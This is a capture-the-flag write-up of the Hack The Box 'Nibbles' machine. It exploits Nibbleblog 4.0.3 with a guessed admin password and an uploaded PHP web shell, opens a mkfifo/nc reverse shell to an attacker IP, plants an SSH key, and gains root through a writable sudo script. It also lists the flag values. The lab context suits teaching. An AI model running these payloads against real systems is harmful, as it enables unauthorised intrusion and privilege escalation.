




Nibbles
Enumeration
nmap
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 | |
1 2 3 4 5 6 7 8 9 | |
Manual footprinting
Banner grabbing
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 | |
whatweb
1 2 3 4 5 | |
SSL
Not applicable
robots.txt
No robots.txt
Source code

Other
Found version displaying /nibbleblog/README

1 2 3 4 5 6 7 8 9 10 11 12 | |
We got username admin.
Web Footprinting
Directory
Since we have the directory nibbleblog from the source code, we do a dir scan on the directory instead of the main directory (looking for php,html and txt as well).
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 | |
Interesting directories: /admin
Subdomains (with DNS)
Not applicable
Subdomains (vhost)
Not applicable
Exploitation Research
searchsploit
1 2 3 4 5 6 7 8 9 10 | |
RCE exploit detected. Authorization required. metasploit exploit available as well. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6967
Exploitation
-
http://10.129.200.170/nibbleblog/admin.php : user: admin | pass: nibbles
-
Uploading test payload thru the my_image plugin.
<?php echo system($_REQUEST['cmd']); ?>
-
The plugin saves the "image" in the content/private/plugins/my_images folder with the name image.php

-
Now we upload the php reverse shell
1<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.188 1234 >/tmp/f"); ?>` -
On the attacker machine we start a stabilized shell
1stty raw -echo; (echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo ""; echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"'; echo reset; echo ;cat) | nc -lvnp 1234 -
In the home directory we find the user nibbler and the user flag
1 2 3 4 5 6 7 8 9 10 11
nibbler@Nibbles:/home/nibbler$ ls -al nibbler@Nibbles:/home/nibbler$ ls -al total 20 drwxr-xr-x 3 nibbler nibbler 4096 Mar 12 2021 . drwxr-xr-x 3 root root 4096 Dec 10 2017 .. -rw------- 1 nibbler nibbler 0 Dec 29 2017 .bash_history drwxrwxr-x 2 nibbler nibbler 4096 Dec 10 2017 .nano -r-------- 1 nibbler nibbler 1855 Dec 10 2017 personal.zip -r-------- 1 nibbler nibbler 33 Mar 12 2021 user.txt nibbler@Nibbles:/home/nibbler$ cat user.txt 79c03865431abf47b90ef24b9695e148 -
Interesting file is personal.zip, unzip it.
sudo -lshows us wie can execute the monitor.sh with root privileges1 2 3 4 5 6 7 8 9 10 11 12 13
nibbler@Nibbles:/home/nibbler$ unzip personal.zip Archive: personal.zip creating: personal/ creating: personal/stuff/ inflating: personal/stuff/monitor.sh nibbler@Nibbles:/home/nibbler$ sudo -l Matching Defaults entries for nibbler on Nibbles: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User nibbler may run the following commands on Nibbles: (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh nibbler@Nibbles:/home/nibbler$
Create ssh keys and login with ssh
Since the reverse shell is extremely unstable, we create a ssh shell.
-
Create a private-public key pair on the attacker machine
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> ssh-keygen -f keys Generating public/private rsa key pair. Enter passphrase (empty for no passphrase): Enter same passphrase again: Your identification has been saved in keys Your public key has been saved in keys.pub The key fingerprint is: SHA256:XextmEmLuQnFrvYikrv7ObpB/ucKIig78Do2Pp1PRqo bonzo@srv001.bonzonet.test The key's randomart image is: +---[RSA 3072]----+ | | | . . | | o + | | + * * | | .. S = * o | |o oo o o . | |=.o.=+ o o | |+*o+=+ooo. | |=Eo BX=*... | +----[SHA256]-----+ -
Create the folder
.sshin the folder/home/nibbleron the victim machine and create the authorized_keys file1echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0TbaBlftemYs6DxLDOeRRcpPsi2BwjvbqebbE48rXwuucGB3moCuZepxpzxkUlFtn/JsSLOfX/WGH6AaSeoQrEOIgtyHgZEsrM6QbGeZdQbxmoX6y1c3iZ2jj6jUZ92jIC/xMHIyvxqbG+um7Dl/j0dqj1dwInrswYaCmoPxpTPUJoQ5ExgMTDby3ZPTajLNrwqwIaQRDRShFXaOeiB920g9FeUmU8x0bYCSkw6UIy5VwQFzPD4+fiJ2BlGK+7Bcz6gDMlnZyNOSWmMzV+oAo8k38p21KqJkJ2wanj0jmLOx6nmFJGoPY3IqcbrEGbTm+kD61Kxby2JCUDIZM9in/psHxkwF/L91T/SRUhjd2ABXijAmY1TuVnha4NNSwiSC1CCxRq4/JKAuO6Qvv1pSyqB/dD5GcB8s97UAqyZ18XUEjG+9C0Heq8OxRNdZBtG+4CwjClmXQ6PZswPqKQLNl13BDxaBLoyevTILYlsiINBNFz5bM+qQP/XXu09yrk78= bonzo@srv001.bonzonet.test" >> authorized_keys -
change the ownership of the
keysfile on the attacker machine a connect via ssh1 2 3 4 5 6 7 8 9 10 11 12 13 14
bonzo@srv001:/opt/Documentation/CTF/HTB/Easy/nibbles> ssh nibbler@10.129.200.170 -i key The authenticity of host '10.129.200.170 (10.129.200.170)' can't be established. ECDSA key fingerprint is SHA256:6Xub2G5qowxZGyUBvUK4Y0prznGD5J2UyeMhJSdCZGw. Are you sure you want to continue connecting (yes/no/[fingerprint])? yes Warning: Permanently added '10.129.200.170' (ECDSA) to the list of known hosts. Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-104-generic x86_64) * Documentation: https://help.ubuntu.com * Management: https://landscape.canonical.com * Support: https://ubuntu.com/advantage 291 packages can be updated. 197 updates are security updates. ... SNIP
Privilege Escalation
-
With
sudo -lwe check if there are any commands we can execute with root privileges without been asked for a password1 2 3 4 5 6 7
nibbler@Nibbles:~/personal/stuff$ sudo -l Matching Defaults entries for nibbler on Nibbles: env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin User nibbler may run the following commands on Nibbles: (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh -
We can see that
monitor.shcan be executed without password (monitor.shis in thepersonal.zipfile in the home folder of thenibbleruser ) -
We edit the
monitor.shadding a simpleecho "/bin/bash -i" >> monitor.sh -
Executing
sudo ./monitor.shin the folder where themonitor.shresides, we get the root shell1 2
nibbler@Nibbles:~/personal/stuff$ sudo ./monitor.sh root@Nibbles:~/personal/stuff# -
We get the root flag from the root folder
1 2 3 4 5 6 7 8 9 10 11 12 13 14
root@Nibbles:~/personal/stuff# cd /root/ root@Nibbles:/root# ls -al total 28 drwx------ 4 root root 4096 Mar 12 2021 . drwxr-xr-x 23 root root 4096 May 24 12:11 .. -rw------- 1 root root 0 Dec 29 2017 .bash_history -rw-r--r-- 1 root root 3106 Oct 22 2015 .bashrc drwx------ 2 root root 4096 Dec 10 2017 .cache drwxr-xr-x 2 root root 4096 Dec 10 2017 .nano -rw-r--r-- 1 root root 148 Aug 17 2015 .profile -rwx------ 1 root root 33 Mar 12 2021 root.txt root@Nibbles:/root# cat root.txt de5e5d6619862a8aa5b9b212314e0cdd root@Nibbles:/root#
Loot
MYIP: 10.10.15.173
RHOST: 10.129.157.153
OS: Ubuntu 16.04.7 LTS (Xenial Xerus)
Services
| Name | Version |
|---|---|
| OpenSSH | 7.2p2 |
| Apache | 2.4.18 |
Found interesting subdirectory: /nibbleblog/
Apps
| Name | Version | URL | Exploit |
|---|---|---|---|
| nibbleblog | v 4.0.3 | https://www.nibbleblog.com/ | yes |
Found interesting subdirectory: /nibbleblog/
Found interesting subdirectories and files: /nibbleblog/admin, /nibbleblog/content/, /nibbleblog/plugins/, /nibbleblog/themes/, /nibbleblog/languages/, /nibbleblog/README
Users
| username | password | other |
|---|---|---|
| admin | nibbles | got through manually out several passwords |
Flags
| Flag | Value |
|---|---|
| user | 79c03865431abf47b90ef24b9695e148 |
| root | de5e5d6619862a8aa5b9b212314e0cdd |
Comments
Any feedback and suggestions are welcome. This website was created using mkdocs and the material plugin. If you want, you can make a pull request. The repository is https://github.com/dabonzo/itsec_hp